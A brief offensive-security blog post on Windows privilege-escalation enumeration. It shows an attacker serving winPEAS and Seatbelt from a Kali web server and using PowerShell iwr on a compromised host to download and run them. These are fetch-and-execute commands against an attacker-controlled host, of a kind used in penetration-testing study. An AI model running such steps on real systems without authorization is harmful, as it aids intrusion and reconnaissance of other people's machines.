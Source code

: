 ```yaml
---
layout: post
title: Windows Powershell Enumeration
titledate: 09/15/23
tags: ["infosec","offsec", "privesc", "powershell", "winpeas", "seatbelt"]
---
```


#### using winpeas to enumerate

first we start a web server hosting winpeas on our kali box

    $ python3 -m http.server 80

next if we have access to the windows system via a user shell

    $ powershell

    PS > iwr -uri http://192.168.10.10/winPEASx64.exe -Outfile winPEAS.exe

    $ .\winPEAS.exe

after we copy the executable over and run it we can gain a host of information about the target win system

similarly Ghostpack has a lot of useful tools like Seatbelt

    $ python3 -m http.server 80

again hosting the binary on our machine (find a way to execute it on the target)

    $ powershell

    PS > iwr -uri http://192.168.10.10/Seatbelt.exe -Outfile Seatbelt.exe
    
    $ .\Seatbelt.exe -group=all